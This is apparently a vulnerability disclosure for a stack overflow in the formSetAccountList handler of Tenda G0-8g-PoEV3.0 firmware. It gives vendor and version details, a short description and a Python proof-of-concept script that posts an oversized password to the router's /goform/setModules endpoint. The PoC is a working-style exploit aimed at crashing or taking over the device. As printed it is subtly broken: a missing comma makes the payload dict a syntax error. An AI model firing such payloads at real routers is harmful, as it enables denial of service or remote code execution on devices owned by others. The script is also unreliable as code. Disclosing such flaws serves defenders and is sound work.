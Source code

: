 # Tenda G0-8g-PoEV3.0 formSetAccountList
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680) and before

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the formSetAccountList function.
### Vulnerability details
In function formSetAccountList line 31、35, it reads in a user-provided parameter `password`, and the variable `String` is passed to the `SimpleEncryptToBase64` function without any length check, which may overflow the stack-based buffer `v17`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-2-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "userType": "admin"
    "password": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
